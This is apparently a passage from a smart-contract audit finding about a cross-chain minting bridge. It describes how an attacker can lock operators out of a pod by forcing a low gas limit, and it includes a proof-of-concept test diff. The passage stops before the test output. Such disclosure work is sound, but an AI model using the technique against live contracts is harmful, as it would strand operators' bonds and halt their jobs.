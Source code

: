 ### Impact

Operators would be locked out of the pod, unable to execute any more jobs and not being able to get back the bond they paid.

The attacker would have to pay a value equivalent to the gas fee if that amount was realistic (i.e. `gasPrice` &ast; `gasLimit` in dest chain native token), but this can be a relative low amount for Polygon and Avalanche chain (for Polygon that's 20M gas limit and `200 Gwei gas = 4 Matic`, for Avalanche the block gas limit seems to be 8M and the price `~30 nAVAX = 0.24 AVAX`). Plus, the operator isn't going to receive that amount.

### Proof of Concept

The following test demonstrates this scenario:

```diff
diff --git a/test/06_cross-chain_minting_tests_l1_l2.ts b/test/06_cross-chain_minting_tests_l1_l2.ts
index 1f2b959..a1a23b7 100644
--- a/test/06_cross-chain_minting_tests_l1_l2.ts
+++ b/test/06_cross-chain_minting_tests_l1_l2.ts
@@ -276,6 +276,7 @@ describe('Testing cross-chain minting (L1 & L2)', async function () {
             gasLimit: TESTGASLIMIT,
           })
         );
+        estimatedGas = BigNumber.from(50_000_000);
         // process.stdout.write('\n' + 'gas estimation: ' + estimatedGas.toNumber() + '\n');
 
         let payload: BytesLike = await l1.bridge.callStatic.getBridgeOutRequestPayload(
@@ -303,7 +304,8 @@ describe('Testing cross-chain minting (L1 & L2)', async function () {
             '0x' + remove0x((await l1.operator.getMessagingModule()).toLowerCase()).repeat(2),
             payload
           );
-
+        estimatedGas = BigNumber.from(5_000_000);
+        
         process.stdout.write(' '.repeat(10) + 'expected lz gas to be ' + executeJobGas(payload, true).toString());
         await expect(
           adminCall(l2.mockLZEndpoint.connect(l2.lzEndpoint), l2.lzModule, 'lzReceive', [
@@ -313,7 +315,7 @@ describe('Testing cross-chain minting (L1 & L2)', async function () {
             payload,
             {
               gasPrice: GASPRICE,
-              gasLimit: executeJobGas(payload),
+              gasLimit: 5_000_000,
             },
           ])
         )
```

The test would fail with the following output:
